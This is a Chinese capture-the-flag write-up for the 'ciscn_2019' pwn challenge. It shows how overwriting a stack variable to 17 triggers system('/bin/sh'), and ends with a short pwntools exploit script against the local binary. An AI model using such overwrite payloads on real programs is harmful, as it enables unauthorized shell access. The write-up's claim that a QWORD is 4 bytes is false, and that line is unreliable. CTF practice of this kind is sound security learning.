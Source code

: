 执行一下的效果

![image-20201102171957552](https://static.hack1s.fun/images/2021/02/06/image-20201102171957552.png)

是一个输入名字的程序

安全机制基本都开了

![image-20201102172023608](https://static.hack1s.fun/images/2021/02/06/image-20201102172023608.png)

查看main函数，可以看到进行了一个判断，如果打到了这个点就会执行bin/sh

![image-20201102172124594](https://static.hack1s.fun/images/2021/02/06/image-20201102172124594.png)

但是我们输入`aaa`显然连那个大的判断if都没有进入

这里观察一下其实就是让输入的`var[13]`不为0

Var的长度超过14就可以，而调用了system的那个小if则是判断`var[13]`是否等于17

只是要注意这里var是当作QWORD读的

QWORD是4个字节，也就是说13*4+1的位置要是17

```python
from pwn import *
io = process('./ciscn_2019')
io.recvuntil('?\n')

payload = 'a'*13*4+p64(17)
io.sendline(payload)
io.interactive()
```

